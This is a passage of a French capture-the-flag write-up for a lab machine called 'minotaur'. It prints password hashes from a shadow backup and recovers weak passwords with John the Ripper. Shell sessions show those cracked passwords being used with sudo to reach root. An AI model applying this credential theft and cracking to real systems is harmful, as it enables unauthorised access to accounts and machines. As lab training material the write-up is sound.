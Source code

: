 Il y a aussi une copie lisible du fichier `shadow`. Je copie les hashs intéressants et je les file à JTR :

```
root:$6$15/OlfJP$h70tk3qikcf.kfwlGpYT7zfFg.cRzlJMlbVDSj3zCg4967ZXG0JzN/6oInrnvGf7AZaJFE2qJdBAOc/3AyeGX.:16569:0:99999:7:::
minotaur:$6$3qaiXwrS$1Ctbj1UPpzKjWSgpIaUH0PovtO2Ar/IshWUe4tIUrJf8VlbIIijxdu4xHsXltA0mFavbo701X9.BG/fVIPD35.:16582:0:99999:7:::
heffer:$6$iH6pqgzM$3nJ00ToM38a.qLqcW8Yv0pdRiO/fXOvNv03rBzv./E0TO4B8y.QF/PNZ2JrghQTZomdVl3Zffb/MkWrFovWUi/:16582:0:99999:7:::
h0rnbag:$6$nlapGOqY$Hp5VHWq388mVQemkiJA2U1qLI.rZAFzxCw7ivfyglRNgZ6mx68sE1futUy..m7dYJRQRUWEpm3XKihXPB9Akd1:16582:0:99999:7:::
```

```shellsession
www-data@minotaur:/tmp$ cat flag.txt 
That shadow.bak file is probably useful, hey?
Also, you found a flag!
My m1L|<$|-|@|<3 br1|\|G$ @11 t3h b0y$ 2 t3h y@R|)
```

JTR trouve le mot de passe `Password1` pour le compte `heffer` qui permet d'accèder à un autre flag... mais c'est tout.

```shellsession
heffer@minotaur:~$ cat flag.txt 
So this was an easy flag to get, hopefully. Have you gotten ~minotaur/flag.txt yet?
Th3 fl@G 15: m00000 y0
heffer@minotaur:~$ sudo -l
Matching Defaults entries for heffer on minotaur:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User heffer may run the following commands on minotaur:
    (root) NOPASSWD: /root/bullquote.sh
heffer@minotaur:~$ sudo /root/bullquote.sh
[sudo] password for heffer: 
sudo: /root/bullquote.sh: command not found
```

Après une heure, JTR n'ayant pas cassé d'autre hash sur ma machine, je cherche la solution sur le web : l'utilisateur `minotaur` a le mot de passe `obiwan6` et effectivement le hash aurait été cassé après une plus longue attente (oui mais de combien d'heures ?)

On peut alors obtenir un flag :

```shellsession
minotaur@minotaur:~$ cat flag.txt 
Congrats! You've found the first flag:
M355 W17H T3H 8ULL, G37 73H H0RN!

But can you get /root/flag.txt ?
```

puis passer root :

```shellsession
minotaur@minotaur:~$ sudo -l
Matching Defaults entries for minotaur on minotaur:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User minotaur may run the following commands on minotaur:
    (root) NOPASSWD: /root/bullquote.sh
    (ALL : ALL) ALL
minotaur@minotaur:~$ sudo su
[sudo] password for minotaur: 
root@minotaur:/home/minotaur# cd /root
root@minotaur:~# cat flag.txt 
```